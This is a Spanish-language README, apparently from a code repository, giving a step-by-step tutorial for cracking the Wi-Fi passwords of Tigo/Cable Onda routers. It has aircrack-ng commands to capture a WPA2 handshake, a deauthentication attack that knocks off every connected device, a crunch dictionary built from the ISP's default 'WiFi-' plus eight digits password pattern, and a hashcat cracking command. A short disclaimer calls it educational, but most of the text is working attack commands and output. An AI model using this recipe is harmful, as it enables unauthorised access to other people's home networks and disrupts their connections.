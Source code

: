 # HACKING REDES TIGO

DISCLAIMER

Esta informacion no busca promover los ataques a redes que no sean de tu propiedad lo que se busca es tomarlo del punto educacional, que les ayude un poco a comprender como es un ataque de wireless y que nos ayude a protegernos.

# Procedimiento

https://www.youtube.com/watch?v=uczbN0nxKfI

Para este ataque utilizaremos la tecnica de captura de handshake y este archivo lo pasaremos al hashcat para poder desencriptar el hash a traves de un diccionario que crearemos con CRUNCH. 

Utilizaremos tres aplicaciones para poder obtener el password [Aircrack-ng](http://aircrack-ng.org/)/[Hashcat](http://hashcat.net/). Crunch https://github.com/jim3ma/crunch

## Comencemos

Para este tutorial necesitaremos cualquiera de estas distribuciones de linux:

-Kali Linux https://www.kali.org/)
-Parrot OS https://www.parrotsec.org/
-Wifislax https://www.wifislax.com/

# Hardware
	
- Necesitaremos una interfaz de red que sea compatible con [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode)
- Pueden entrar a ese link y verificar que tarjetas de red son compatibles
- (http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

### Monitor Mode

Lo primero que tenemos que hacer es colocar nuestra interfaz de red en modo monitor:

```bash
airmon-ng start "NUESTRA INTERFAZ"
```

Normalmente siempre lleva el nombre de `wlan0` pero para verificar cual es nombre solo escribe en una terminal `iwconfig`:

### Ahora nos ponemos en modo escucha

```bash
airodump-ng wlan0
```

- Veran algo similar como esto

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  WPA2             COWIFI241135420/9                                                 
```

- De esta ventana hay que anotar el bssid `14:91:82:F7:52:EB` y el canal `1`

### Poner en modo escucha el airodump

- Para esto solo tendremos que especificarle al airodump-ng en que red quiero que se enfoque y el nombre del archivo que quiero guardar toda esta informacion. con `-c` especificamos el canal `--bssid` insertamos el bssid y con `-w` nombramos el el archivo donde queremos que se almacene el handshake y por ultimo le especificamos nuestra interfaz de red.

```
airodump-ng -c 'CANAL' --bssid 'bssid' -w 'nombre del archivo' wlan0mon

```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
14:91:82:F7:52:EB  -47   0      140        0    0   1  54e  WPA2 CCMP   PSK  COWIFI241135420/9  
```
-Ahora en otra terminal paralela a esta escribimos el siguente codigo
```
aireplay-ng --deauth 0 -a 'bssid' wlan0mon

```
-esto lo que hara es desautenticar a todos los disposivos y cuando se intente conectar capturaremos el handshake


-No pueden cerrar esta terminal hasta que en la parte superior derecha apareza este mensaje `[ WPA handshake: 14:91:82:F7:52:EB`.

- Luego cuando tengan este archivo '.cap' lo pasaremos a nuestro windows y entraremos a este link https://hashcat.net/cap2hashcat/ y comvertimos nuestro archivo .cap a .22000 que es el formato que lee hashcat.

# Creacion de diccionario

-Las redes tigo o cable onda tienen un particularidad y es que todas comienza con "WiFi-(y una serie de 8 numeros)" Con crunch podemos crear un diccionario especial para esto solo necesitaremos copiar estos comandos
```
crunch 13 13 -t WiFi-%%%%%%%% -o DiccionarioTIGO.txt

```

### Crack the Network Password

-Ahora en nuestro windows abriremos la consola y nos pocisionaremos donde tengamos descargado el hashcat luego cuando estemos adentro escribimos este codigo
```
hashcat -a 0 -m 22000 Nombre_del_hash.22000 diccionariotigo.txt --show

```

# LISTO

              
